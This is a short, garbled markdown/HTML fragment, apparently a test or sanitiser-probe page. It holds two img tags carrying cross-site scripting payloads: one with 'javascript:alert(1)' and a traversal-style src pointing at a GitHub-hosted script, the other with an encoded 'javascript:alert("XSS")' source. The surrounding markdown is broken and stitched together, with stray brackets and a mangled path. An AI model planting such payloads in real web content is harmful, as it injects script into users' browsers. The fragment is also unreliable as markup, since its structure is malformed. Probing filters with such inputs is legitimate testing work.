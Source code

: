 ![

<img src=";../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<IMG SRC= ;javascript%3aalert(&quot;XSS&quot;) >
  
](()
